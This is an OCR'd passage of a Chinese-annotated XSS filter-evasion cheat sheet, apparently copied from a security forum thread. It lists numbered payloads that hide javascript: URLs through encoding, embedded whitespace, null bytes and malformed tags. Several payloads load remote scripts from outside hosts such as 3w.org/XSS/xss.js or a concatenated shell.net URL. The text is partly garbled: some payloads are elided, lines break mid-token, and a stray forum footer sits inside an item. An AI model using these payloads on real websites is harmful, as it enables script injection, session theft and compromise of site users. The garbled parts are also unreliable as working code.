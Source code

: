 ```
<IMG SRC=jav..省略..S')>

(9)7 位的 UTF-8 的 Unicode 编码是没有分号的(计算器)
<IMG SRC=jav..省略..S')>

(10)十六进制编码也是没有分号(计算器)
<IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

(11)嵌入式标签,将 Javascript 分开
<IMG SRC="jav ascript:alert('XSS');">

(12)嵌入式编码标签,将 Javascript 分开
<IMG SRC="jav ascript:alert('XSS');">

(13)嵌入式换行符
<IMG SRC="jav ascript:alert('XSS');">

(14)嵌入式回车
<IMG SRC="jav ascript:alert('XSS');">

(15)嵌入式多行注入 JavaScript,这是 XSS 极端的例子
<IMG SRC="javascript:alert('XSS')">

(16)解决限制字符(要求同页面)
<script>z='document.'</script><script>z=z+'write("'</script><script>z=z+'<script'</script><s
cript>z=z+'
src=ht'</script><script>z=z+'tp://ww'</script><script>z=z+'w.shell'</script><script>z=z+'.ne
t/1.'</script><script>z=z+'js></sc'</script><script>z=z+'ript>")'</script><script>eval_r(z)<
/script>

(17)空字符 12-7-1 T00LS - Powered by Discuz! Board
https://www.a.com/viewthread.php?action=printable&tid=15267 2/6perl -e 'print "<IMG
SRC=java\0script:alert(\"XSS\")>";' > out

(18)空字符 2,空字符在国内基本没效果.因为没有地方可以利用
perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

(19)Spaces 和 meta 前的 IMG 标签
<IMG SRC=" javascript:alert('XSS');">

(20)Non-alpha-non-digit XSS
<SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

(21)Non-alpha-non-digit XSS to 2
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(22)Non-alpha-non-digit XSS to 3
<SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

(23)双开括号
<<SCRIPT>alert("XSS");//<</SCRIPT>

(24)无结束脚本标记(仅火狐等浏览器)
<SCRIPT SRChttp://3w.org/XSS/xss.js?<B>

(25)无结束脚本标记 2
<SCRIPT SRC=//3w.org/XSS/xss.js>

(26)半开的 HTML/JavaScript XSS
<IMG SRC="javascript:alert('XSS')"

(27)双开角括号
<iframe src=http://3w.org/XSS.html <
```